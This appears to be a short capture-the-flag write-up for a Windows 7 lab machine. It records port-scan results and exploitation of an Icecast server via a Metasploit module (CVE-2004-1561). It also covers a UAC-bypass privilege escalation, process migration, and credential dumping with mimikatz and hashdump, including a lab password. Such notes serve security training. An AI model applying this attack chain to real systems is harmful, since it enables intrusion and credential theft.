 # ICE 

# DATE - Software_user , Thursday, 9 July 2020 04:25am

# IP - `10.10.236.130`

# Scanning

# NMAP - 

"""
`WINDOWS 7 box scan reveals`

135
139
445
3389
5357
8000
49152
49153
49154
49158
49159
49160

""" 	
# Intresting -

Icecast streaming media server is running 

exploiting.

# msf shell -

"""

`Server name - Dark-PC\Dark`

confirmed its windows 7 and x64 bit {box}

"""

"Using  post/multi/recon/local_exploit_suggester "

# local exploit suggester -

"""
exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
exploit/windows/local/ikeext_service: The target appears to be vulnerable.
exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

"""

# Answers -

1. """
Execute Code Overflow 
CVE-2004-1561
use exploit windows/http/icecast_header
RHOSTS
"""
2. """
meterpreter
getuid - DARK
7601
x64
exploit/windows/local/bypassuac_eventvwr
lhost 
SeTakeOwnershipPrivilege
"""
3. """
spoolsv.exe
NT AUTHORITY\SYSTEM
creds_all

"""
4. """
hashdump 
screenshare 
record_mic
timestomp 
golden_ticket_create
"""

# Priv esc - 
"""
`exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.`

exploited .

"""


# Migrating - 

"""
migrating the service 

`service - spoolsv.exe `

got shell as ROOT {Administrator}
got creds using mimikatz (
 
 used kiwi extensions and used creds_all

)

# Creds 
DARK-PC - Password01!

using hashdump got all hashes

that was easy box pretty intresting :-)